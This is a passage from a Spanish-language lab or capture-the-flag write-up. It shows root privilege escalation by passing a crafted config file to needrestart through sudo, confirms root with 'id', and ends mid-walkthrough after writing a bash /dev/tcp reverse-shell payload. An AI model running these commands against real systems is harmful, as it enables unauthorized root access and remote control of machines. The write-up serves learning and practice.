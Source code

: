 Vemos que podemos ejecutar como el usuario `root` el binario `needrestart`, por lo que vamos a ver que hace dicho binario.

Si listamos el `help` del binario, veremos que con el `-c` podremos cargar una configuracion personalizada, vamos a probar esto:

```shell
cd /tmp
echo 'system("id > /tmp/test.txt");' > config.sh
chmod +x config.sh
sudo /usr/sbin/needrestart -c /tmp/config.sh
```

Info:

```
Scanning processes...                                                                                                                                        
Scanning candidates...                                                                                                                                       
Scanning linux images...                                                                                                                                     

Running kernel seems to be up-to-date.

Restarting services...
 systemctl restart cron.service

No containers need to be restarted.

User sessions running outdated binaries:
 fismathack @ session #302: WVXwB[43675]
 fismathack @ session #403: zAgpV[45532]

No VM guests are running outdated hypervisor (qemu) binaries on this host.
```

Ahora si listamos el directorio `/tmp` veremos que funciono:

```shell
cat /tmp/test.txt
```

Info:

```
uid=0(root) gid=0(root) groups=0(root)
```

Por lo que vamos a realizar lo siguiente:

```shell
cd /tmp
echo 'system("bash -c \'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1\'");' > config.sh
chmod +x config.sh
```

Antes de ejecutarlo nos pondremos a la escucha:
